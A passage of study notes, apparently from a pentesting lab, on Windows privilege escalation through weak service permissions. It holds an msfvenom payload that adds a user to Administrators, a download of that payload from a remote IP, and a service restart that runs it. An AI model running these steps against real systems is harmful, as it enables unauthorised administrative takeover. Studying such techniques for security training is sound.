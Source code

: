 - ![alt text](image-7.png)
```powershell
cd C:\sysinternalssuite
.\accesschk.exe -accepteula -q -d c:\opt
```
- all users have RW perm

2. 
- create a payload
```
msfvenom -p windows/x64/exec CMD="net localgroup Administrators redraccoon /add" -f exe-service -o Abyss.exe
```
  - CMD shell commands 
  - service binary structur is different with usual binary 

3. 
```
wget(Invoke-WebRequest) http://10.8.0.129/Abyss.exe -outfile Abyss.exe
```

4. 
```
Restart-Service AbyssWebServer

net user redraccoon
```
- got Administrators group



### misconfigured privilege to Service
- when misconfigured 'service modify' privilege to specific user 
  1. modify attributes
    - modify path to attacker's payload path 
      - >it's different from PathName

  2. replace service binary itself with payload


- information gathering first in the host 
  1. check modify priv of service binary path
    - modify binPath  -> set payload's path
  2. bianry write perm
    - in practice, barely use 
